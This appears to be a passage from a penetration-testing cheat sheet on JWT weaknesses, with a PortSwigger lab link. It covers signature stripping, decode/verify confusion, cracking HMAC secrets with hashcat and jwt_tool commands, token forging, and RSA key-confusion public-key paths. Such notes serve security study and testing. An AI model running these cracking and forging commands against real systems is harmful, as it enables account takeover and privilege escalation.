     ```jsx
    Delete the signature from the end of the token. If vulnerable the application will fail to check the signature as it sees nothing that needs checking.
    Use jwt_tool to create the modified token [IN PROGRESS]

    $ python3 jwt_tool.py JWT_HERE -X n
    ```

Many JWT libraries provide one method to decode the token and another to verify it:

* `decode()`: Only decodes the token from base64url encoding without verifying the signature.
* `verify()`: Decodes the token and verifies the signature.

Sometimes developers might mix up these methods. In that case, the signature is never verified and the application will accept any token (in a valid format). Developers might also disable signature verification for testing and then forget to re-enable it. Such mistakes could lead to arbitrary account access or privilege escalation.

#### Secret Keys Flaws

*   **Crack HMAC secret Key**

    If you can crack the HMAC secret then you can forge anything you like in the token. This could be a `**critical**` vulnerability.

    ```python
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    -----------------------------------
    3. If JWT-Heartbreaker Plugin is installed then weak secret-key will directly be shown to you.
    																			OR
    3. Copy JWT Token and store it in a text file then usse Hashcat to crack the Secret key using below command.
    		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --force"
    		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --show" //this will show cracked secret-key
    Hashcat commands:

    Dictionary attack: hashcat -a 0 -m 16500 jwt.txt wordlist.txt
    Rule-based attack: hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule
    Brute force attack: hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6
    																			OR
    3. Use Jwt_Tool to crack the secret key using below command:
    			"python3 jwt_tool.py <JWT> -C -d secrets.txt"
    ----------------------------------
    4. Now Use the Secret key to forge the request using jwt.io or jwt_tool with option "-p"
    5. Done, Use the generated token in request and forward the request.

    <https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key>
    ```
* **RSA Key Confusion (CVE-2016-5431):**
  1.  Find the Public Key → [Finding Public Keys · ticarpi/jwt\_tool Wiki (github.com)](https://github.com/ticarpi/jwt\_tool/wiki/Finding-Public-Keys)

      ```jsx
      /.well-known/jwks.json
      /openid/connect/jwks.json
      /jwks.json
      /api/keys
      /api/v1/keys
      ```
  2.  You will also need to use the right format of the Public Key. If the key is provided then you're fine, if not then best guess is [PEM format](https://en.wikipedia.org/wiki/Privacy-Enhanced\_Mail)
